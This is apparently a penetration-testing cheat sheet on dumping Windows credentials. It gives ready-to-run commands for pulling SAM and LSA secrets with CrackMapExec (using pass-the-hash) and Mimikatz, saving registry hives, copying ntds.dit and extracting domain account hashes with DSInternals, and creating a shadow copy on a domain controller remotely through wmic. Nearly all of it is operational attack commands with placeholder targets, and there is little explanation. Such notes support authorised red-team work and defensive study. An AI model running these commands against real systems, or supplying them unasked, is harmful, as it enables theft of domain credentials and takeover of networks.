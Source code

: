 ## Dumping SAM
#### Crackmapexec
```
cme smb <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH> --lsa
cme smb <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH> -M lsassy
```

#### Mimikatz dump SAM
```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::sam"'
```

#### Manually
```
reg save HKLM\SAM SamBkup.hiv /Y
reg save HKLM\System SystemBkup.hiv /Y
reg save HKLM\Security SecurityBkup.hiv /Y

mimikatz.exe
mimikatz # lsadump::sam SamBkup.hiv SystemBkup.hiv SecurityBkup.hiv
```

## Dumping ntds.dit
#### Copy SYSTEM and ntds.dit
```
Copy-Item C:\Windows\system32\config\SYSTEM <PATH>
Copy-Item C:\Windows\ntds\ntds.dit <PATH>
```

#### Load DSinternals
- https://github.com/MichaelGrafnetter/DSInternals/releases/tag/v4.4.1
```
unblock-file DSInternals_v4.7.zip
expand-archive DSInternals_v4.7.zip -DestinationPath C:\Windows\system32\WindowsPowerShell\v1.0\Modules\DSInternals
```

#### Dump with DSinternals
```
$key = Get-BootKey -SystemHiveFilePath <PATH TO SYSTEM>
Get-ADDBAccount -all BootKey $key -DBPath <PATH TO ntds.dit>

Get-ADDBAccount -samaccountname administrator -BootKey $key -DBPath <PATH TO ntds.dit>
```

## Shadowcopy
#### Create shadowcopy of the C:\ drive
```
wmic /node:<DC FQDN> /user:<USER>@<DOMAIN FQDN> /password:'<PASSWORD>' process call create "cmd /c vssadmin create shadow /for=C: 2>&1"
```
